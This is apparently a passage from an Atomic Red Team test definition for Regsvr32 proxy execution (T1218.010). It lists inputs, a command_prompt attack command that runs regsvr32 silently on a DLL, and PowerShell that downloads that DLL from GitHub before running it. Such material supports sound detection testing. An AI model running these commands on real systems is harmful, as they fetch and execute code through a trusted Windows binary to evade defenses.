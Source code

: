 **auto_generated_guid:** 9d71c492-ea2e-4c08-af16-c6994cdf029f

#### Inputs:

| Name         | Description                      | Type   | Default Value                                                     |
| ------------ | -------------------------------- | ------ | ----------------------------------------------------------------- |
| dll_name     | Name of DLL to Install           | string | PathToAtomicsFolder&#92;T1218.010&#92;bin&#92;AllTheThingsx86.dll |
| regsvr32path | Default location of Regsvr32.exe | string | C:&#92;Windows&#92;system32                                       |
| regsvr32name | Default name of Regsvr32.exe     | string | regsvr32.exe                                                      |

#### Attack Commands: Run with `command_prompt`!

```cmd
#{regsvr32path}\#{regsvr32name} /s /i "#{dll_name}"
```

#### Dependencies: Run with `powershell`!

##### Description: AllTheThingsx86.dll must exist on disk at specified location (#{dll_name})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_name}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{dll_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.010/bin/AllTheThingsx86.dll" -OutFile "#{dll_name}"
```

<br/>
